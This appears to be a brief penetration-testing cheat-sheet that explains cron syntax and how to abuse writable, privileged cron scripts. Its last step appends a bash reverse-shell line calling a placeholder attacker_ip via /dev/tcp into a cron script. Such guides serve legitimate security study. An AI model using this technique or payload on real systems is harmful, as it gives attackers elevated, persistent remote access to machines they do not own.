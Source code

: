 **Cron jobs** are scheduled tasks on Unix-based systems that execute commands or scripts at specified intervals. They are managed by the `cron` daemon and are defined in crontab files.

## Basic Concepts

- **Crontab:** A configuration file where users define scheduled tasks.
- **Cron Format:** A cron job is specified using the following format:
```bash
* * * * * command_to_execute
| | | | |
| | | | +-- Day of the week (0 - 7) [Sunday=0/7]
| | | +---- Month (1 - 12)
| | +------ Day of the month (1 - 31)
| +-------- Hour (0 - 23)
+---------- Minute (0 - 59)
```

## Exploiting Misconfigured Cron Jobs

Cron jobs can be exploited if:

- They execute files in writable locations (e.g., `/tmp`).
- They run scripts or binaries with elevated privileges.

1. **Identify Cron Jobs**

```bash
crontab -l
# Or
cat /etc/crontab
```

2. **Check Permissions:** Ensure the target script or command is writable.

```bash
ls -l /path/to/cron_script.sh
```

3. **Modify the Script:** Insert malicious payloads, such as spawning a reverse shell.

```bash
echo "bash -i >& /dev/tcp/attacker_ip/port 0>&1" >> /path/to/cron_script.sh
```
